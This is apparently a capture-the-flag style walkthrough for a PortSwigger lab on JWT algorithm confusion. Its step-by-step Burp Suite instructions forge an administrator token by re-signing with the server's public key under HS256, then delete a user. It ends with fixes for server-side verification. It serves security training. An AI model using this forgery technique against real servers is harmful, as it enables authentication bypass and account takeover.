

---

**Difficulty:** 🔴 Expert

**Goal:**

- 🔑 Fetch the server's public key from `/jwks.json` — import the JWK into **JWT Editor Keys** as a New RSA Key
- 📋 Right-click the RSA key → **"Copy Public Key as PEM"** — Base64-encode it in Burp's **Decoder** tab
- 🔐 Create a **New Symmetric Key** — replace the `k` value with the Base64-encoded PEM — save it
- ✏️ In Burp Repeater, change the JWT header's `alg` from `RS256` to `HS256` — change the payload's `sub` to `"administrator"`
- ✍️ Click **Sign** — select your symmetric key — check **"Don't modify header"** — the token is now signed with the server's own public key as the HMAC secret
- 🗺️ Send `GET /admin` — the server verifies with its public key as the HMAC secret — it matches — admin panel loads
- 🗑️ Delete the user `carlos` → lab solved!

---

## 🧠 **Concept Recap**

> **JWT algorithm confusion** (also called key confusion) exploits a server that uses RSA (RS256) to sign tokens but fails to enforce the algorithm server-side. Because the `alg` header is client-controlled, an attacker can switch it from `RS256` to `HS256`. If the server then uses its RSA public key as the HMAC secret for verification, and the attacker already knows that public key (exposed at `/jwks.json`), the attacker can sign any token with that same public key and the server will accept it. The public key — normally safe to share — becomes the secret that forges unlimited valid tokens.

### 📊 **Normal RS256 Flow vs Algorithm Confusion Attack**

||**Normal RS256**|**Algorithm Confusion Attack**|
|---|---|---|
|**`alg` value**|`RS256`|`HS256` (changed by attacker)|
|**Server signs with**|RSA private key (secret)|— (attacker forges the token)|
|**Attacker signs with**|❌ Can't — no private key|✅ Public key as HMAC secret|
|**Server verifies with**|RSA public key|Public key reused as HMAC secret|
|**Result**|✅ Secure|❌ Attacker-forged token accepted|

```js
Why the public key exposure makes this catastrophic:

Normal RS256:
  Sign:   private_key (secret — only the server has it)
  Verify: public_key  (safe to publish — anyone can verify)
  → Attacker knows public key but can't sign → secure

After alg confusion to HS256:
  Sign:   public_key  (attacker already has this!)
  Verify: public_key  (server uses same key for HMAC)
  → Attacker can sign anything with the public key → fully forged tokens ✅
```

**The full attack flow:**

```js
Log in as wiener → capture JWT in Burp Repeater
         ↓
GET /jwks.json → copy the JWK object from the keys array
         ↓
JWT Editor Keys → New RSA Key → paste JWK → save
Right-click RSA key → "Copy Public Key as PEM"
Burp Decoder → paste PEM → encode as Base64 → copy result
         ↓
JWT Editor Keys → New Symmetric Key → Generate
Replace k value with Base64 PEM → save
         ↓
In Repeater → JSON Web Token tab:
  Header:  { "alg": "HS256", ... }    ← changed from RS256
  Payload: { "sub": "administrator", ... }
         ↓
Sign → select symmetric key → "Don't modify header" → OK
  → Token signed with HMAC-SHA256 using server's public key as secret
         ↓
Send GET /admin
  → Server reads alg: HS256 → uses public key as HMAC secret to verify
  → Our signature matches → token accepted ✅
  → sub: "administrator" → admin access granted ✅
         ↓
Delete carlos → lab solved ✅
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 — Install JWT Editor and Log In**

1. 🌐 Click **"Access the lab"**
2. 🔌 Ensure **Burp Suite is running** and proxying traffic
3. ⚙️ In Burp → **Extender → BApp Store** → search **JWT Editor** → click **Install**
4. 🖱️ On the lab site, click **"My account"** → log in with `wiener` / `peter`
5. 🖱️ In Burp → **Proxy → HTTP history** → find the post-login `GET /my-account`
6. 🖱️ Right-click → **"Send to Repeater"**

---

### 🔧 **Step 2 — Confirm You're Blocked from /admin**

1. 🖱️ In Repeater, change the path from `/my-account` to `/admin`:

```http
GET /admin HTTP/1.1
Cookie: session=eyJhbGci...  (wiener's original token)
```

2. 🖱️ Click **"Send"**

```js
Expected result:
  → "Admin interface only accessible if logged in as the administrator"
  → Confirms admin access is gated on the sub claim
  → The JWT header shows alg: RS256 — the server is using asymmetric signing
```

---

### 🔧 **Step 3 — Obtain the Server's Public Key**

1. 🌐 In the browser, navigate to:

```js
https://YOUR-LAB-ID.web-security-academy.net/jwks.json
```

### 🔎 Common locations

```js
/.well-known/jwks.json  
/jwks.json  
/.well-known/openid-configuration
```


2. 🖱️ The server responds with a JWK Set:

```json
{
  "keys": [
    {
      "kty": "RSA",
      "e": "AQAB",
      "use": "sig",
      "kid": "da5f15e1-402b-4132-810e-791058eed829",
      "alg": "RS256",
      "n": "rSKFd-fIzml9WYdlGZtLYX32IuQDXFRJekhycLKueKR1..."
    }
  ]
}
```

3. 📋 Copy the **JWK object** — the `{ ... }` inside the `keys` array — not the outer array itself

```js
Key observation:
  → The server exposes its RSA public key openly at /jwks.json
  → This is normal for RS256 — public keys are safe to publish
  → But if the server accepts HS256, this public key becomes the HMAC secret
  → The attacker now has everything needed to forge tokens
```

---

### 🔧 **Step 4 — Import the JWK as an RSA Key in JWT Editor**

1. 🖱️ In Burp → click the **JWT Editor Keys** tab in the main tab bar
2. 🖱️ Click **"New RSA Key"**
3. 🖱️ In the dialog, ensure the **JWK** option is selected
4. 📋 Paste the JWK object you copied from `/jwks.json`:

```json
{
  "kty": "RSA",
  "e": "AQAB",
  "use": "sig",
  "kid": "da5f15e1-402b-4132-810e-791058eed829",
  "alg": "RS256",
  "n": "rSKFd-fIzml9WYdl..."
}
```

5. 🖱️ Click **"OK"** to save

---

### 🔧 **Step 5 — Copy the Public Key as PEM**

1. 🖱️ In the **JWT Editor Keys** tab, find the RSA key you just saved
2. 🖱️ **Right-click** it → select **"Copy Public Key as PEM"**

```js
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEArSKFd+fIzml9WYdlGZtL
YX32IuQDXFRJekhycLKueKR1wQ+35E7P6h+3v/zV/d2K5PN2BIWmkQackscLtvR9
...
-----END PUBLIC KEY-----
```

3. 📋 The PEM is now in your clipboard

```js
The server stores its public key in X.509 PEM format.
To use it as an HMAC secret, we need it Base64-encoded.
Next step: encode it using Burp's Decoder.
```

---

### 🔧 **Step 6 — Base64-Encode the PEM in Burp Decoder**

1. 🖱️ In Burp → click the **Decoder** tab
2. 📋 Paste the PEM (including the `-----BEGIN PUBLIC KEY-----` and `-----END PUBLIC KEY-----` lines)
3. 🖱️ Click **"Encode as..."** → select **"Base64"**
4. 📋 Copy the resulting Base64 string

```js
Important:
  → Include the full PEM including the header/footer lines when encoding
  → The Base64 output is a single string with no line breaks
  → This string will become the k value in the symmetric key — next step
```

---

### 🔧 **Step 7 — Create a Symmetric Key Using the Base64 PEM**

1. 🖱️ In Burp → **JWT Editor Keys** tab → click **"New Symmetric Key"**
2. 🖱️ Click **"Generate"** — a placeholder JWK is created:

```json
{
  "kty": "oct",
  "kid": "some-generated-id",
  "k": "random-base64-string"
}
```

3. ✏️ Replace the `k` value with the **Base64-encoded PEM** you copied from Decoder:

```json
{
  "kty": "oct",
  "kid": "some-generated-id",
  "k": "LS0tLS1CRUdJTiBQVUJMSUMgS0VZLS0tLS0K..."
}
```

4. 🖱️ Click **"OK"** to save

```js
What we've done:
  → Created an HMAC symmetric key whose secret IS the server's RSA public key
  → When we sign a JWT with this key, we're signing it with HMAC-SHA256
    using the server's public key as the secret
  → The server will verify using its public key in HMAC mode → same result → passes
```

---

### 🔧 **Step 8 — Modify the JWT Header (`alg`)**

1. 🖱️ Back in Repeater (on the `GET /admin` request) → click the **JSON Web Token** tab
2. 🖱️ In the **Header** section, change `alg` from `"RS256"` to `"HS256"`:

```json
{
  "kid": "da5f15e1-402b-4132-810e-791058eed829",
  "alg": "HS256"
}
```

3. 🖱️ Click **"Apply changes"**

```js
What this does:
  → Tells the server to verify this token using HMAC-SHA256 instead of RSA
  → A correctly hardened server would reject any alg that isn't RS256
  → This server reads alg from the client-supplied token → vulnerability
```

---

### 🔧 **Step 9 — Modify the JWT Payload (`sub`)**

1. 🖱️ In the **Payload** section, change `sub` from `"wiener"` to `"administrator"`:

```json
{
  "iss": "portswigger",
  "sub": "administrator",
  "exp": 1648037164
}
```

2. 🖱️ Click **"Apply changes"**

---

### 🔧 **Step 10 — Sign the Token with the Symmetric Key**

1. 🖱️ At the bottom of the **JSON Web Token** tab, click **"Sign"**
2. 🖱️ Select the **symmetric key** you created (the one with the Base64 PEM as `k`)
3. ☑️ Ensure **"Don't modify header"** is checked

```js
Why "Don't modify header" must be checked:
  → The Sign function may regenerate the header (including alg) by default
  → Without this option: alg gets reset back to RS256 (matching the key type)
  → With this option: the header stays exactly as you edited it — alg: HS256 preserved
```

4. 🖱️ Click **"OK"**

```js
Result:
  → The JWT is signed with HMAC-SHA256 using the server's public key as the secret
  → Header preserved: alg: HS256, kid: (original kid value)
  → Payload: sub: "administrator"
  → When the server reads this token:
      → reads alg: HS256 → switches to HMAC verification
      → uses its own public key as the HMAC secret
      → computes HMAC(header+payload, public_key) → matches our signature ✅
```

---

### 🔧 **Step 11 — Access the Admin Panel**

1. 🖱️ Confirm the request looks like this:

```http
GET /admin HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Cookie: session=MODIFIED-HEADER.MODIFIED-PAYLOAD.NEW-SIGNATURE
```

2. 🖱️ Click **"Send"**

```js
Expected result:
  → 200 OK — admin panel HTML loads ✅
  → Server verified HMAC with its own public key → passed
  → Server read sub: "administrator" → admin access granted
```

---

### 🔧 **Step 12 — Delete carlos**

1. 🖱️ In the admin panel response, find the delete URL:

```js
/admin/delete?username=carlos
```

2. 🖱️ In Repeater, update the path:

```http
GET /admin/delete?username=carlos HTTP/1.1
Cookie: session=MODIFIED-HEADER.MODIFIED-PAYLOAD.NEW-SIGNATURE
```

3. 🖱️ Ensure the JWT still has `alg: HS256`, `sub: administrator`, and the public-key-signed signature
4. 🖱️ Click **"Send"**

```js
Result:
  → carlos is deleted ✅
  → Lab solved! 🎉
```

---

## 🎉 **Lab Solved!**

```
✅ Fetched server's public key from /jwks.json
✅ Imported JWK as RSA key → copied as PEM → Base64-encoded in Decoder
✅ Created symmetric key with Base64 PEM as k value
✅ Changed JWT alg → HS256, sub → "administrator"
✅ Signed with symmetric key (preserving header)
✅ Server verified with public key in HMAC mode → passed
✅ Admin panel loaded → carlos deleted
✅ Lab complete!
```

---

## 🔗 **Complete Attack Chain**

```r
1.  Log in as wiener → GET /my-account → Send to Repeater
2.  GET /admin with original token → blocked (sub: wiener, alg: RS256)
3.  Browser: GET /jwks.json → copy JWK object from keys array
4.  JWT Editor Keys → New RSA Key → paste JWK → OK
5.  Right-click RSA key → "Copy Public Key as PEM"
6.  Burp Decoder → paste PEM → Encode as Base64 → copy result
7.  JWT Editor Keys → New Symmetric Key → Generate → replace k with Base64 PEM → OK
8.  Repeater → JSON Web Token tab → Header: alg → "HS256"
9.  Payload: sub → "administrator"
10. Sign → select symmetric key → "Don't modify header" checked → OK
11. GET /admin → admin panel loads
12. GET /admin/delete?username=carlos → lab solved
```

**No private key needed. No brute-force. The server's own public key — freely published — becomes the secret that forges any token.**

---

## 🧠 **Deep Understanding**

### Why the attack works — the server uses public key for HMAC

```r
Correct RS256 verification:
  verify(token, public_key, algorithm="RS256")
  → Uses RSA signature verification
  → Only the private key can produce a valid RSA signature
  → Attacker knows public key but can't sign → secure

Vulnerable HS256 path (this lab):
  alg = token.header['alg']          // reads "HS256" from attacker's token
  verify(token, public_key, alg)     // uses public key as HMAC secret!
  → Attacker knows public key
  → Attacker signs token with HMAC-SHA256(public_key)
  → Server recomputes HMAC-SHA256(public_key) → same result → accepted ✅

The fatal assumption:
  → The developer assumed alg would always be RS256
  → They forgot that the client controls the alg field
  → Their HMAC branch uses the RSA public key (same object) as the secret
  → Public key is not secret → attacker has it → game over
```

### Why `/jwks.json` is normally safe — but not in this case

```js
Publishing public keys at /jwks.json is standard and correct for RS256:
  → Public keys are meant to be public — anyone can verify RS256 tokens
  → There is no secret in the public key by design

The problem is NOT the public key being published.
The problem is the server accepting HS256 and using the public key as the HMAC secret.

Fix the algorithm confusion → /jwks.json becomes harmless again.
```

### The three-step key transformation

```js
Step 1 — JWK (JSON Web Key format, from /jwks.json):
  { "kty": "RSA", "e": "AQAB", "n": "rSKFd..." }
  Used by: RSA libraries, JWT verification code

Step 2 — PEM (Privacy Enhanced Mail format, X.509):
  -----BEGIN PUBLIC KEY-----
  MIIBIjANBgkqhkiG9w0...
  -----END PUBLIC KEY-----
  Used by: OpenSSL, most crypto libraries, file storage

Step 3 — Base64-encoded PEM (as k value in symmetric JWK):
  { "kty": "oct", "k": "LS0tLS1CRUdJTiBQVUJMSUMgS0VZLS0tLS0K..." }
  Used by: JWT Editor's HMAC signing — treats the PEM bytes as the HMAC secret

Why this chain works:
  → The server stores its public key as X.509 PEM (hint confirms this)
  → When it verifies HS256 tokens, it reads that PEM file and uses its bytes as the key
  → We reproduce those exact bytes in our symmetric key → HMAC matches
```

---

## 🐛 **Troubleshooting**

```js
Problem: /admin returns 401 after signing
→ Most likely cause: "Don't modify header" was not checked
  → Without it, signing resets alg back to RS256 — check the header in the JWT tab after signing
→ Verify the header still shows alg: HS256 before sending

Problem: JWT Editor tab shows alg reverted to RS256 after signing
→ The Sign dialog overwrote the header — go back and reapply alg: HS256 in the header section
→ Then sign again with "Don't modify header" checked this time

Problem: Decoder Base64 output has line breaks or spaces
→ Ensure you use "Encode as Base64" — not "URL-encode" or other options
→ Remove any whitespace from the Base64 string before pasting as k value
→ The k value must be a single continuous Base64 string

Problem: New RSA Key dialog — JWK not accepted
→ Ensure you copied only the { ... } object from inside the keys array
→ Do not include the outer array brackets [ ] or "keys": wrapper
→ The pasted content should start with { "kty": "RSA", ...

Problem: Delete request returns 401 after /admin loaded
→ The modified JWT must be used in the delete request too
→ Check the Cookie header — Burp may have reverted to the original session cookie
→ Paste the forged JWT manually into the Cookie header before sending

Problem: Lab already solved / carlos not in user list
→ Reset the lab from the lab page to restore original state
```

---

## 💬 **In One Line**

🔓 The server exposed its RSA public key at `/jwks.json` and accepted HS256 tokens — so switching `alg` from `RS256` to `HS256`, signing the token with that public key as the HMAC secret, and setting `sub` to `administrator` produced a token the server verified with its own public key and trusted completely. That's **JWT Authentication Bypass via Algorithm Confusion** — the public key that was safe to publish became the secret that forged unlimited admin tokens.

---
---

## 🔒 **How to Fix It**

```js
# Priority 1 — Hardcode the expected algorithm server-side — never read it from the token
# The server decides the algorithm; the client has no say

# ❌ BAD — algorithm taken from the JWT header:
header = jwt.get_unverified_header(token)
algorithm = header['alg']                    # attacker controls this
payload = jwt.decode(token, public_key, algorithms=[algorithm])

# ✅ GOOD — algorithm fixed in server config:
EXPECTED_ALGORITHM = 'RS256'

payload = jwt.decode(token, public_key, algorithms=[EXPECTED_ALGORITHM])
# If token has alg: HS256 → InvalidAlgorithmError raised automatically
```

```js
# Priority 2 — Use separate key objects for asymmetric and symmetric algorithms
# Never allow the same key material to be used for both

# ❌ BAD — same variable used regardless of algorithm:
def verify(token):
    alg = jwt.get_unverified_header(token)['alg']
    return jwt.decode(token, rsa_public_key, algorithms=[alg])
    # If alg=HS256 → rsa_public_key bytes used as HMAC secret → confused!

# ✅ GOOD — keys and algorithms are bound together:
RSA_PUBLIC_KEY = load_rsa_public_key('/etc/keys/public.pem')
ALLOWED = ['RS256']

def verify(token):
    return jwt.decode(token, RSA_PUBLIC_KEY, algorithms=ALLOWED)
    # HS256 is not in ALLOWED → rejected regardless of what the header says
```

```js
# Priority 3 — Explicitly reject symmetric algorithms when using RSA infrastructure

def verify_token(token):
    header = jwt.get_unverified_header(token)

    symmetric_algorithms = {'HS256', 'HS384', 'HS512'}
    if header.get('alg') in symmetric_algorithms:
        raise ValueError("Symmetric algorithms are not accepted on this endpoint")

    return jwt.decode(token, RSA_PUBLIC_KEY, algorithms=['RS256'])
```

```js
# Priority 4 — Use a modern JWT library that separates key types strictly

import jwt  # PyJWT >= 2.0 enforces this by default

# Passing an RSA key with algorithms=['HS256'] raises InvalidKeyError
# Passing alg: HS256 in a token verified against RSA key → rejected
payload = jwt.decode(
    token,
    RSA_PUBLIC_KEY,
    algorithms=['RS256'],          # whitelist — HS256 always rejected
    options={'verify_exp': True}
)
```

---
